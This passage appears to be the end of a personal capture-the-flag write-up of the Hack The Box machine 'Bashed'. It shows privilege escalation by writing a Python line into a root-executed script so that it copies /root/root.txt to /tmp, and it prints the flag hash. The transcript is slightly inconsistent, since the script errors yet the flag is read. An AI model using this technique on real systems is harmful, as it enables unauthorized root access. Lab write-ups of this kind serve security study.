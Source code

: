 ```python
f = open("test.txt", "w")
f.write("testing 123!")
f.close
```

it simply opens the file `test.txt` and  (I think whatever `w` is too, but I didn't figure that out) writes to the file whatever goes into `f.write`. This script runs as root too, so I should be able to read out or redirect the contents of `/root/root.txt` to another location where I can read it as `www-data`:

```console
www-data@bashed
:/scripts# echo import os > test.py

www-data@bashed
:/scripts# echo 'os.system("cat /root/root.txt > /tmp/root.txt")' >> test.py

www-data@bashed
:/scripts# cat test.py

import os
os.system("cat /root/root.txt > /tmp/root.txt")
```

So now I should be able to run it, and then read the root flag:

```console
www-data@bashed
:/scripts# ./test.py

./test.py: 1: ./test.py: import: not found
./test.py: 2: ./test.py: Syntax error: word unexpected (expecting ")")
www-data@bashed
:/scripts# cat /tmp/root.txt

cc4f0afe3a1026d402ba10329674a8e2
```

# Conclusion

I am going to be taking another attempt at the OSCP this year. Before I jump back into that I am going to try and hit all the OSCP-like boxes in HTB. This was the first machine on my list.
